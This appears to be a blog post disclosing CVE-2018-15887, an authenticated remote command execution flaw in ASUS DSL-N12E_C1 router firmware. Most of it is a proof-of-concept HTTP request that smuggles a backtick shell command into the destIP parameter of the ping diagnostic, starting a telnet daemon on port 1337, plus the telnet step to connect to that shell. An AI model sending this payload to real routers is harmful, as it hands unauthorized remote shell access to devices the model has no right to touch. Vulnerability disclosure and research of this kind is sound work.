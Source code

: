 ```yaml
---
layout: post
title: "[CVE-2018-15887] ASUS DSL-N12E_C1 1.1.2.3_345 - Remote Command Execution"
excerpt: "A post-authenticated remote command execution."
modified: 2018-08-02
categories: exploit
tags: ["asus, dsl-n12e"]
---
```


# Overview
Main_Analysis_Content.asp in ASUS DSL-N12E_C1 1.1.2.3_345 is prone to Authenticated Remote Command Execution, which allows a remote attacker to execute arbitrary OS commands via service parameters, such as shell metacharacters in the **destIP** parameter of a cmdMethod=ping request.

# Proof-of-Concept
{% highlight http %}
GET /Main_Analysis_Content.asp?current_page=Main_Analysis_Content.asp&next_page=Main_Analysis_Content.asp&next_host=www.target.com&group_id=&modified=0&action_mode=+Refresh+&action_script=&action_wait=&first_time=&applyFlag=1&preferred_lang=EN&firmver=1.1.2.3_345-g987b580&cmdMethod=ping&destIP=%60utelnetd+-p+1337%60&pingCNT=5 HTTP/1.1
Host: www.target.com
Connection: keep-alive
Pragma: no-cache
Cache-Control: no-cache
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_11_6) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/67.0.3396.99 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8
Referer: http://www.target.com/Main_Analysis_Content.asp
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
{% endhighlight %}

To connect
1. telnet www.target.com 1337
